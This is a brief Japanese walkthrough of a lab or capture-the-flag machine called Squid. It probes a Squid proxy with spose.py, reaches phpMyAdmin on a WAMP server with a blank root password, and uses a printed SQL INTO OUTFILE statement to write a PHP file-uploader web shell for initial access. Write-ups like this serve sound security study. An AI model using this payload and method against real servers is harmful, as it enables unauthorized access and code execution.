 # Squid

## 手順
1. rustscanすると、squidプロキシサーバが開いていることが分かる。まずはこのsquidの特定バージョンをsearchsploitする。しかしエクスプロイトはヒットせず。
2. squidのプロキシにブラウザからアクセスすると、URLに到達できない風なエラーメッセージがブラウザに表示される。
3. [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid)を見ると、squidのエクスプロイト方法が色々書いてある。spose.pyというツールを使うと、proxychainsを使わずに、そのproxyの裏に隠れているポートを見ることができる。
4. sposeの結果を見ると、3306と8080が開いているのが分かる。ブラウザからアクセスするために、foxy proxyでターゲットホストのsquidをブラウザの使用するプロキシとして使用する。
5. ブラウザからアクセスすると3306はただのエラーメッセージなので、8080ポートにアクセスすると、wamp serverのページに到達できる。
6. するとphpinfoとphpmyadminのページに飛ぶリンクが見えるのでphpmyadminのログインページへ。rootユーザでパスワード空白でログインができてしまう。
7. rootでphpmyadminに入れているので調べると、SQLタブ経由でファイルをアップロードできる。以下のsql文を張り付けて実行すると、phpファイルを作成できる。
```.sql
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```
8. 作成したphpファイルはuploader.phpというファイルなので、そこからシェルファイルをアップロードして起動すれば初期シェルが取れる。
9. 権限昇格なしで終わり。
